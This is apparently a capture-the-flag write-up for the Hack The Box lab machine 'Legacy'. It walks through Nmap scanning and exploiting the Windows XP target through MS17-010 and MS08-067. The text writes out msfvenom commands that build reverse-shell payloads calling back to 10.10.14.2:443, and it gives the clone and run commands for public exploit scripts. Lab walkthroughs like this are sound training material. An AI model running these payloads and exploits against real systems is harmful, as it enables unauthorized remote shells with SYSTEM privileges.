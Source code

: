 # Legacy

<figure><img src="../../.gitbook/assets/image (252).png" alt=""><figcaption><p>Fig 1. Nmap full port scan</p></figcaption></figure>

Running the full port scan on the target system, ports 135, 139 and 445 were open.&#x20;

<figure><img src="../../.gitbook/assets/image (242).png" alt=""><figcaption><p>Fig 2. Nmap Aggressive scan</p></figcaption></figure>

Next, I ran an aggressive Nmap scan using the `-A` flag. From the OS guesses, it is most likely running Microsoft Windows XP SP3.

<figure><img src="../../.gitbook/assets/image (241).png" alt=""><figcaption><p>Fig 3. Nmap vuln scanning</p></figcaption></figure>

Using the arguments `--script vuln`, I found the target to be vulnerable to `MS08-067` and `MS17-010`.&#x20;

### MS17-010 (Eternal Blue)

1. Clone the repository containing the exploit for MS17-010 using the command `git clone https://github.com/worawit/MS17-010`
2.  Generate a reverse shell (`shell.exe`) using&#x20;

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -f exe > shell.exe
    ```

<figure><img src="../../.gitbook/assets/image (213).png" alt=""><figcaption><p>Fig 4. Generate shell.exe</p></figcaption></figure>

3. Edit the following section inside the `zzz_exploit.py` file.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Fig 5. Before editing <code>zzz_exploit.py</code> file</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (220).png" alt=""><figcaption><p>Fig 6. After editing <code>zzz_exploit.py</code> file</p></figcaption></figure>

4. Setup Netcat listener.

<figure><img src="../../.gitbook/assets/rev shell.png" alt=""><figcaption><p>Fig 7. Setup a Netcat listener</p></figcaption></figure>

4. Run the script using the command `python2.7 zzz_exploit.py 10.10.10.4`

<figure><img src="../../.gitbook/assets/image (257).png" alt=""><figcaption><p>Fig 8. Running exploit.py file</p></figcaption></figure>

5. &#x20;A reverse shell is obtained on the Netcat listener.

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption><p>Fig 9. Obtained a reverse shell </p></figcaption></figure>

6. To find the locations of the `user.txt` and the `root.txt` files, use the following commands.

```shell
cd \
dir /s user.txt
dir /s root.txt
```

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption><p>Fig 10. Obtaining r the flags</p></figcaption></figure>

### MS08-067

1. Clone the exploit repository using the command `git clone https://github.com/andyacer/ms08_067.git`.&#x20;
2. Use the command `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows` to generate a reverse shell shellcode.

<figure><img src="../../.gitbook/assets/image (292).png" alt=""><figcaption><p>Fig 11. Generating reverse shell shellcode</p></figcaption></figure>

3. Running the command `python2.7 ms08_067_2018.py` shows the OS number for Windows XP SP3 English (NX) as 6.

<figure><img src="../../.gitbook/assets/image (287).png" alt=""><figcaption><p>Fig 12. Help page for the script</p></figcaption></figure>

4. Running the command `python2.7 ms08_067_2018.py 10.10.10.4 6 445` , I managed to obtain a reverse shell with SYSTEM privileges.

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption><p>Fig 13. Running the exploit script</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption><p>Fig 14. Obtained reverse shell</p></figcaption></figure>
